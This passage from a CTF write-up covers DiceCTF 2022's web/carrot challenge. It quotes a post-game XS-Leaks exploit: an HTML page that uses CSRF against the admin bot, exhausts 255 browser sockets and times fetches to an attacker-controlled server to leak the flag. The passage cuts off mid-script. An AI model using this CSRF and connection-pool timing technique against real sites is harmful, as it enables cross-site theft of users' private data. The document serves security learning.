 From the behavior of the admin bot and other observations, it seems to be an XS-Leaks problem. As long as you can observe whether the search result has a flag, it is enough, but the difficulty lies in not being able to figure out how to observe.

The official did not release this question and it seems that the answer will not be released (since it is not released, it may be a Chrome 0 day or an unrepaired bug?), but someone provided an XS-Leaks exploit after the game: https://gist.github.com/kunte0/47c2b53535605d842f984e77d6c63eed

Complete code:

``` html
<h1>DiceCTF 2022 web/carrot</h1>

<p>Step 1: CSRF the admin user, to set a super long title for the flag note (LAX + POST form only possible for 2 minutes after cookies is created)</p>
<button onclick="csrf()">do csrf</button>
<p>Step 2: XS-Search with <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/">connection-pool timing leak</a>, we have to use window.open (LAX cookie)</p>

<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br>
<br>
<h2 id=output></h2>
<br>
<form id=x action="" method="POST" style="display:none;">
	<input type="text" name="title" placeholder="title">
	<br><br>
	<input type="number" name="priority" placeholder="priority" value=9999>
	<br><br>
	<textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
	<br><br>
	<input type="submit" value="submit">
</form>

<script>

// this is send is used as logging
LOG = 'Starting'
// 255 in normal chrome, 99 in headless
SOCKETLIMIT = 255;
// default
TIMELIMIT = 800;
INSTANCE = ''
MYSERVER = `example.com`

const sleep = (ms) => {
    return new Promise(resolve => {
        setTimeout(resolve, ms);
    });
}

const time_fetch = async() => {
    let test_server_url = `https://${MYSERVER}/?${LOG}`;
    let start = window.performance.now();
    try {
        await fetch(test_server_url, {
            mode: 'no-cors'
        });
    } catch (e) {
        console.log(e);
    }
    let end = window.performance.now();
```